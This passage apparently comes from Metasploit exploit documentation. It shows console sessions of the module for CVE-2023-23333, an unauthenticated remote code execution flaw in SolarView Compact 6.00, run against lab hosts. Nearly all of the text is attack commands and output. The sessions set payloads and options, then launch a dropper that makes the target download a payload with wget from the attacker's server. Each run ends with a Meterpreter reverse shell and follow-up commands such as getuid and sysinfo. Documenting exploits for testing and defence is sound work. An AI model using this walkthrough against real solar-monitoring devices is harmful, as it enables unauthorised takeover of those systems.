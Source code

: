 ```
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set srvport 8080
srvport => 8080
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.55:80 can be exploited.
[+] The target is vulnerable. SolarView Compact ver.6.00
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/MjK0wR
[*] Client 192.168.201.55 (Wget/1.21.2) requested /MjK0wR
[*] Sending payload to 192.168.201.55 (Wget/1.21.2)
[*] Sending stage (3045380 bytes) to 192.168.201.55
[*] Meterpreter session 10 opened (192.168.201.8:4444 -> 192.168.201.55:33428) at 2023-08-27 21:50:25 +0000
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: contec
meterpreter > sysinfo
Computer     : 192.168.201.55
OS           : Ubuntu 22.04 (Linux 5.15.0-78-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```
### Kali Linux 2023.3 Linux Dropper -  linux/armle/meterpreter_reverse_tcp
To simulate and test the ARM 32-bit architecture using a Raspberry PI with ARM-32 bit support installed.
```
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set target 2
target => 2
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set payload linux/armle/meterpreter_reverse_tcp
payload => linux/armle/meterpreter_reverse_tcp
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set srvport 8080
srvport => 8080
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > exploit

msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.8:80 can be exploited.
[+] The target is vulnerable. SolarView Compact ver.6.00
[*] Executing Linux Dropper for linux/armle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:8080/ELImHODHJZuf
[*] Client 192.168.201.8 (Wget/1.21.3) requested /ELImHODHJZuf
[*] Sending payload to 192.168.201.8 (Wget/1.21.3)
[*] Meterpreter session 11 opened (192.168.201.8:4444 -> 192.168.201.8:44122) at 2023-08-28 06:36:11 +0000
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: contec
meterpreter > sysinfo
Computer     : 192.168.201.8
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
```